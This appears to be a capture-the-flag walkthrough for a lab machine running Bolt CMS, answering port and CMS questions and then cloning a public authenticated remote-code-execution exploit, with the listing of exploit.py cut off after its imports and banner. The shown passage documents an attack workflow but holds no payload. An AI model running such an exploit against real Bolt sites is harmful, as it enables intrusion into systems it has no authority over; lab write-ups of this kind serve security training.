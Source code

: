 How many ports are open?
*2*


What ports are open? Comma separated, lowest first: **,**
*22,80*

### Webserver 

Examine webserver. Identify what web-app is running.

What CMS is the website built on?
*Bolt*

### Exploit 

Download exploit for this app. The exploit works, but might not fire every time. If you first don't succeed... https://github.com/jesusgavancho/Boltcms-Auth-rce-py

```
┌──(kali㉿kali)-[~/bolt]
└─$ git clone https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py.git                   
Cloning into 'Boltcms-Auth-rce-py'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (27/27), done.
remote: Total 30 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (30/30), 8.23 KiB | 936.00 KiB/s, done.
Resolving deltas: 100% (3/3), done.
                                                                                                             
┌──(kali㉿kali)-[~/bolt]
└─$ ls
Boltcms-Auth-rce-py
                                                                                                             
┌──(kali㉿kali)-[~/bolt]
└─$ cd Boltcms-Auth-rce-py 
                                                                                                             
┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ ls
exploit.py  README.md  requirements.txt
                                                                                                             
┌──(kali㉿kali)-[~/bolt/Boltcms-Auth-rce-py]
└─$ cat exploit.py        
#!/usr/bin/python

import requests
import sys
import warnings
import re
import os
from bs4 import BeautifulSoup
from colorama import init 
from termcolor import colored 
  
init() 
#pip install -r requirements.txt
print(colored('''
 ▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄  ▄       ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄  ▄▄       ▄▄  ▄▄▄▄▄▄▄▄▄▄▄      
▐░░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░▌     ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌▐░░▌     ▐░░▌▐░░░░░░░░░░░▌     
▐░█▀▀▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀█░▌▐░▌      ▀▀▀▀█░█▀▀▀▀ ▐░█▀▀▀▀▀▀▀▀▀ ▐░▌░▌   ▐░▐░▌▐░█▀▀▀▀▀▀▀▀▀      
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌▐░▌ ▐░▌▐░▌▐░▌               
▐░█▄▄▄▄▄▄▄█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌ ▐░▐░▌ ▐░▌▐░█▄▄▄▄▄▄▄▄▄      
▐░░░░░░░░░░▌ ▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌  ▐░▌  ▐░▌▐░░░░░░░░░░░▌     
▐░█▀▀▀▀▀▀▀█░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌   ▀   ▐░▌ ▀▀▀▀▀▀▀▀▀█░▌ 
▐░▌       ▐░▌▐░▌       ▐░▌▐░▌          ▐░▌     ▐░▌          ▐░▌       ▐░▌          ▐░ 
▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌     ▐░█▄▄▄▄▄▄▄▄▄ ▐░▌       ▐░▌ ▄▄▄▄▄▄▄▄▄█░▌
```